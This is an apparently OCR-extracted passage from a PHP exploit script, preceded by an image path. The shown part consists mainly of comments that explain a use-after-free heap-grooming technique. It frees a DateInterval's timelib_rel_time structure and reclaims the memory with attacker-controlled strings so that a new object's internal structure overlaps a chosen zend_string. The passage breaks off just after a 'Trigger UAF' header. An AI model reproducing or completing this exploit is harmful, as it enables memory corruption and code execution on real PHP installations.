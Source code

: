             # Create $p meant to protect $this's blocks
            # I: Right after we trigger the UAF, we will unset $p.
            # This means that the timelib_rel_time structure (TRT) of this object
            # will be freed. We will then allocate a string ($protector) of the same
            # size as TRT. Since PHP's heap is LIFO, the string will take the place
            # of the now-freed TRT in memory.
            # Then, we create a new DateInterval object ($x). From the same
            # assumption, every structure constituting this new object will take the
            # place of the previous structure. Nevertheless, since TRT's memory
            # block has already been replaced by $protector, the new TRT will be put
            # in the next free blocks of the same size, which happens to be $abc
            # (remember, |abc| == |timelib_rel_time|).
            # We now have the following situation: $x is a DateInterval object whose
            # internal TRT structure has the same address as $abc's zend_string.
            $p = new DateInterval('PT1S');

            #
            # Trigger UAF
            #
            